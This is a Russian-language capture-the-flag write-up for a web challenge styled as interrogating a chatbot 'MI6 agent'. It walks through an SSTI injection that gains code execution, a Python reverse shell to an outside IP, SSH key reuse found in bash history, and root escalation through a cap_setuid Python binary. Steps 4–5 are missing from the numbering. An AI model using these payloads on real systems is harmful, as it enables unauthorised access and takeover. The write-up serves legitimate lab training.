

## Дело ЛЛМ(Revenge)

| Событие | Название | Категория | 
| :------ | ---- | ---- | 
| ХЗ |ЖК "Дело ЛЛМ(Revenge)"  | WEB, Linux | 

  
### Описание
На веб-странице доступен чат с «задержанным» — агентом MI6 по имени Джон Харрис. По легенде, он прошёл спецподготовку и не должен раскрывать секретную кодовую фразу во время допроса.(Флаг root/flag.txt)


> Автор: e1iz4vr
>

### Решение

Подключаемся к сервису:

```
http://[HOST]:[PORT]
```


## Этап 1: Обнаружение SSTI

В интерфейсе допроса пробуем различные сообщения. Замечаем, что приветствия обрабатываются особым образом:

```text
Привет {7*7}
```

Получаем ответ:

```text
Привет, 49!
```

Это подтверждает наличие уязвимости Server-Side Template Injection (SSTI).

### Этап 2: Получение Reverse Shell

Проверяем RCE (Remote Code Execution):

```text
Привет {__import__('os').popen('whoami').read()}
```

Ответ: `llmuser`

Получаем reverse shell. На своей машине запускаем:

```bash
nc -lvnp 4444
```

В веб-интерфейсе выполняем:

```text
Привет {__import__('os').popen('python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"172.22.186.151\\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\\"/bin/bash\\")" &').read()}
```

Заменяем `YOUR_IP` на свой IP-адрес.


### Этап 3: Исследование системы

После получения shell исследуем файловую систему:

```bash
cat /home/llmuser/.bash_history
```

Видим команды подключения к другому серверу:

```text
ssh -i /home/llmuser/.ssh/id_rsa target@192.168.90.10
```

### Этап 6: Повышение привилегий

На целевом сервере проверяем capabilities:

```bash
getcap -r / 2>/dev/null
```

Находим:

```text
/usr/bin/python3.10 cap_setuid=ep
```

Capability `cap_setuid` позволяет изменять UID процесса. Используем это для получения root:

```bash
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Проверяем:

```bash
whoami
```

Ответ: `root`

### Этап 7: Получение флага

Читаем флаг:

```bash
cat /root/flag.txt
```

---

## Флаг

```text
vka{CHTO_ZA_PIZDEC_I_RESHIL}
```


---
